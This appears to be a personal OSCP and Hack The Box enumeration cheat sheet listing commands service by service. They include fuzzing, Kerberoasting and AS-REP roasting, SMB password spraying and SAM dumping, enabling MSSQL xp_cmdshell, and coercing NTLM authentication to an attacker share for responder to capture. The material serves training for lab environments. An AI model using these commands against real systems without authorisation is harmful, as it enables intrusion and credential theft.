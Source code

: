 ```yaml
---
description: All but the easiest HTBs are harder than even the 25 point exam boxes.
---
```


# Enumeration (Commands & Links)

{% embed url="https://sgtdede.gitbook.io/hacking/oscp-2022/guide-en" %}

{% embed url="https://eins.li/posts/oscp-secret-sauce/" %}

{% embed url="https://liodeus.github.io/2020/09/18/OSCP-personal-cheatsheet.html" %}

{% embed url="https://casvancooten.com/posts/2020/05/oscp-cheat-sheet-and-command-reference/#reconnaissance" %}

{% embed url="https://github.com/oncybersec/oscp-enumeration-cheat-sheet" %}

### Nmap

```
nmap -sC -sV -p- $ip -v -oN scan.nmap        (TCP)
nmap -sU --top-ports 20 -oN scan.nmap -vv $ip  (UDP)
-Pn Disables host discovery and only conducts a port scan. 
-A OS/Version Detection
-O Remote OS detection using TCP/IP stack fingerprinting
```

### HTTP/HTTPS (80/443)

<pre><code>(VHost)     ffuf -w /usr/share/wordlists/bitquark-subdomains-top100000.txt -u http://$IP:PORT -h (try -H) 'Host: FUZZ.board.htb' -f(c/s/w)   
(Directory) ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://$IP:PORT/FUZZ 
(File fuzzing) ffuf -u http://localhost:3000/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php,.html,.txt    
(HTTP GET)  ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php?FUZZ=key -fs xxx        
(HTTP POST) ffuf -w [wordlist]:FUZZ -u [URL] -X POST -d '<a data-footnote-ref href="#user-content-fn-1">id=FUZZ</a>' -H 'header: value' -fs xxx  
(Use raw request) : ffuf -request request.txt -request-proto http -w wordlist.txt -r [FUZZ should be present in the request]
(Multiple params) ffuf -w list1.txt:W1 -w list2.txt:W2 -X POST -d "username=W1&#x26;password=W2" -u [URL] -fc 200
-p "1.0" and -rate [25]  to rate limit incase of WAF
-r follow redirect
wfuzz -c -w /usr/share/wordlists/yes.txt -u "http://alert.htb/" -H "Host: FUZZ.alert.htb"

curl --insecure -b "[cookiename]=[value]" -X POST --data "[data]" [URL] (--insecure bypass SSL verification)

nikto -h $ip
</code></pre>

### FTP (21)

```
wget -r ftp://anonymous:@<IP>    [If you can't see anything or don't really know where you are]
ftp [ip]
passive (Mitigate entering passive mode)
dir
dir
binary (Set to binary mode for proper channel to download bin files)
get [file]
```

### SSH (22)

```
ssh -L [kali_port]:localhost:[target_port] [user]@[ip] -fN
chmod 600 id_dsa
port forwarding (local and remote)
sshuttle
proxychains?
```

### SMTP (25)

```
telnet 10.10.11.14 25
EHLO [emailid]
AUTH LOGIN
[username in base64]
[password in base64]

swaks --to receiver@mail.com --from sender@mail.com --auth LOGIN --auth-user sender@mail.com --header-X-Test "Header" --server <TARGET-IP> --attach file.txt
```

### Kerberos (88)

Golden/Silver ticket loading

```
./kerbrute_linux_amd64 userenum -d <domain>  userlist.txt --dc <domain> -v
./GetNPUsers.py -dc-ip [ip] -request '[domain]/[user]'
./GetNPUsers.py [domain] -dc-ip [ip] -usersfile userlist.txt
./GetNPUsers.py -no-pass -dc-ip [ip] [domain]/[user]
hashcat64 -m 18200 <hash> rockyou.txt -d 1

./GetUserSPNs.py [domain]/[user]:[password] -dc-ip [ip] 
./GetUserSPNs.py [domain]/[user]:[password] -dc-ip [ip] -request <get ticket here>

export KRB5CCNAME=/home/jtripz/htb/rooms/escape/ticket.ccache; faketime -f '+8h' /usr/bin/python3 psexec.py [domain]/[username]@[dc] -k -no-pass
```

### SMB (139/445)

```
NXC
nxc smb [ip]
nxc smb 10.10.11.35 -u userlist.txt -p 'password' [bruteforce usernames, change smb to winrm/ldap or any other protocol you want to test perms for]
nxc smb [host/ip] -u guest -p '' --shares [list shares depending on user access provided]
nxc smb [host] -u [user] -p [password] --sam

SMBCLIENT [INTERACT WITH SMB]
smbclient //[ip]/[share] -N -L [List share with null auth]
smbclient --user username //10.10.11.35/DEV
recurse ON
prompt OFF
mget *
smbclient.py '[domain]/[user]:[pass]@[ip/host] -k -no-pass [Kerberos auth]

SMBMAP
smbmap -H [ip] -u user -p 'password' -r SYSVOL --depth 10
smbmap -H [ip] --download PATH_TO_FILE

RPCCLIENT
rpcclient -U '' -N 10.10.11.35   
rpcclient -U 'user'  10.10.11.35
enumdomusers
enumdomgroups
querygroup [RID]
queryuser [RID]
enumprivs

MOUNT
#First create folder in kali linux 
mkdir /mnt/smb
#mount folder to kali
sudo mount -t cifs //[IP]/[SHARE] /mnt/smb

responder to receive NTLM authentication hashes from services like mysql
smbserver.py
```

#### User Enumeration

<pre><code><strong>lookupsid.py guest@[ip] -no-pass
</strong>lookupsid.py [domain]/[user]:'[pass]'@[ip/domain]
netexec smb [ip] -u guest -p '' --[rid-brute/users/groups/local-users]
</code></pre>

{% embed url="https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html" %}

{% embed url="https://www.hackingarticles.in/active-directory-enumeration-rpcclient/" %}

### LDAP (389)&#x20;

```
ldapsearch -H ldap://[ip] -x -s base namingcontexts  [-x simple auth, -s scope]
ldapsearch -H ldap://[ip] -x -b "DC=htb,DC=local" > ldap.anon.out  
ldapsearch -H ldap://[ip] -x -b "DC=htb,DC=local" '(objectClass=Person)'

Windows timestamp to human cus Windows does not follow EPOC, for user and password creation and last pass attempt and all the stuff associated with the above search
ldapsearch -H ldap://[ip] -x -b "DC=htb,DC=local" '(objectClass=Person)' sAMAccountName  
ldapsearch -H ldap://[ip] -x -b "DC=htb,DC=local" '(objectClass=Person)' sAMAccountName  sAMAccountType

ldapsearch -H ldap://[ip] -x -b "DC=htb,DC=local" '(objectClass=Person)' sAMAccountName sAMAccountType | grep sAMAccountName | awk '{print $2}' > userlist.ldap
```

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap" %}

### MSSQL (1433)

```
.\SQLCMD.EXE -S localhost -U [user] -P [password] -d [database] -Q "select table_name from streamio_backup.information_schema.tables;"

python3 mssqlclient.py [-port {opt}] [domain]/[user]:[password]@[dc] {-windows-auth}
enable_xp_cmdshell
EXECUTE sp_configure 'show advanced options', 1;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXECUTE xp_cmdshell 'whoami';

sudo responder -I tun0
EXEC master.sys.xp_dirtree '\\10.10.14.9\myshare',1, 1
```

### SQL (3306)

Payload all the things for both please

```
mysql -h [IP] -u [username] -p
```

### PostgreSQL (5432)

```
psql -h localhost -p 5432 -U [user] -d [database]
\list
\c [dbname]
\dt
\d [table] (listing schema for table users)
select * from [table];
```

{% embed url="https://web.archive.org/web/20200309204648/http://0daysecurity.com/penetration-testing/enumeration.html" %}

[^1]: FUZZ=key if you wanna do the opposite
